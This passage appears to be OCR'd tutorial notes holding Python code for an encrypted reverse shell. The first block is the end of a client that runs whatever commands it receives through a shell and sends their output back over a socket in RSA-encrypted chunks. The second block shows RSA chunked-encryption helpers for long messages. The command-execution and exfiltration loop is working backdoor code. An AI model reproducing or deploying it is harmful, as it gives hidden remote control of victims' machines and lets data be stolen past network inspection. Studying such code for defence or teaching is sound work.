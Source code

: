 ```python
        else:
            CMD = subprocess.Popen(command, shell=True, stderr=subprocess.PIPE, stdout=subprocess.PIPE, stdin=subprocess.PIPE)
            result = CMD.stdout.read()
            print (len(result))
            if len(result) > 470:
                for i in range(0, len(result), 470):
                    chunk = result[0+i:470+i]
                    s.send(encrypt(chunk))
            else:
                s.send(encrypt(result))
connect()


```



## RSA Enc Big Message

```python
from Cryptodome.PublicKey import RSA
from Cryptodome.Cipher import PKCS1_OAEP

def decrypt(cipher):
    privatekey = open("private.pem", "rb")
    private_key = RSA.importKey(privatekey.read())
    decryptor = PKCS1_OAEP.new(private_key)
    print (decryptor.decrypt(cipher).decode())


def encrypt(message):
    publickey = open("public.pem", "rb")
    public_key = RSA.importKey(publickey.read())
    encryptor = PKCS1_OAEP.new(public_key)
    encrypted_data = encryptor.encrypt(message)
    print(encrypted_data)
    decrypt(encrypted_data)

message = 'H'*500

if len(message) > 470: # To check the size limitation of messages, which is 470 bites when key size is 4096 bits
    for i in range(0, len(message), 470): # We will split the messages into chunks so it can be processed
        chunk = message[0+i:470+i]
        encrypt(chunk.encode())
else:
    encrypt(message.encode())

```
